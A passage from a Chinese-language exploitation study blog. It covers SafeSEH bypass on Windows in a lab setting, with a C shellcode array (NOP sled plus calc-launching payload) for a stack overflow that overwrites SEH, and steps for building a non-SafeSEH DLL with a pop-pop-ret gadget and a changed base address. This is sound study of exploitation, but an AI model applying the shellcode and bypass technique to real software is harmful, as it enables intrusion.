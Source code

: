 ```c
char shellcode[] = 
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"
// shellcode on heap
"\xb8\x28\x39";
```

测试：

![Bildschirmfoto 2018-08-26 um 4.27.45 PM.png]({{ site.url }}/images/0day/04C3827467ACFA488E84B33AD5277BC4.png)

本节到这里结束。我还是想说，这个机制对堆的“纵容”和现实生活中的一些东西真的很有类比性！比如出生在不同的家庭的人，出生在不同国家的人，他们的人生是怎么样的，他们在成长中有什么差异？可以深入思考一下。反过来，为什么微软的工程师们要允许一个这么特殊的放水规则呢？(unsolved)

## 利用未启用SafeSEH的模块绕过SafeSEH

本节实验的依据是：

> 异常处理函数位于加载模块内存范围内，相应模块未启用SafeSEH，同时相应模块不是纯IL。这样的异常处理函数可以被允许执行。

我们的实验思路是：

1. 用VC6.0编译一个不使用SafeSEH的dll，让测试程序去加载它
2. 在上述dll中我们用内联汇编写入一个`pop pop ret`，作为跳转指令
3. 测试程序存在经典栈溢出，可以覆盖SEH

首先在VC6.0中创建这个dll：

![Bildschirmfoto 2018-08-28 um 3.05.12 PM.png]({{ site.url }}/images/0day/80A20A60421C31B2FC1EEDF0B5D2F539.png)

注意，由于VC6.0编译的dll默认加载基址为`0x10000000`，如果不改变它，则PPR的地址中可能包含`0x00`，这在`strcpy`时会导致失败。所以我们通过在以下选项卡中加入`/base:"0x11120000"`来修改加载基址：

![Bildschirmfoto 2018-08-28 um 3.25.17 PM.png]({{ site.url }}/images/0day/6B225B1D3184C964117416DA208D8366.png)
